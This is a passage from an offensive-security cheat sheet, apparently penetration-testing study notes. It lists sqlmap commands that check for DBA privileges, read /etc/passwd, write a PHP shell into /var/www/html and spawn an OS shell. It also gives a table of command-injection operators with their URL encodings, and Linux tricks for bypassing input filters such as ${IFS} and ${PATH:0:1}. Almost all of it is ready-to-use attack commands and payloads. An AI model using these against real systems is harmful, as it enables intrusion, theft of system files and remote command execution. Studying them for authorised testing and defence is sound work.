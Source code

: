 | `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell                                        |

## Injection Operators

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command** |
|-|-|-|-|
|Semicolon| `;`|`%3b`|Both|
|New Line| `\n`|`%0a`|Both|
|Background| `&`|`%26`|Both (second output generally shown first)|
|Pipe| `\|`|`%7c`|Both (only second output is shown)|
|AND| `&&`|`%26%26`|Both (only if first succeeds)|
|OR| `\|\|`|`%7c%7c`|Second (only if first fails)|
|Sub-Shell| ` `` `|`%60%60`|Both (Linux-only)|
|Sub-Shell| `$()`|`%24%28%29`|Both (Linux-only)|

---
# COMMAND INJECTIONS
# Linux

## Filtered Character Bypass

| Code | Description |
| ----- | ----- |
| `printenv` | Can be used to view all environment variables |
| **Spaces** |
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}` | Commas will be replaced with spaces |
| **Other Characters** |
| `${PATH:0:1}` | Will be replaced with `/` |
| `${LS_COLORS:10:1}` | Will be replaced with `;` |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`) |

---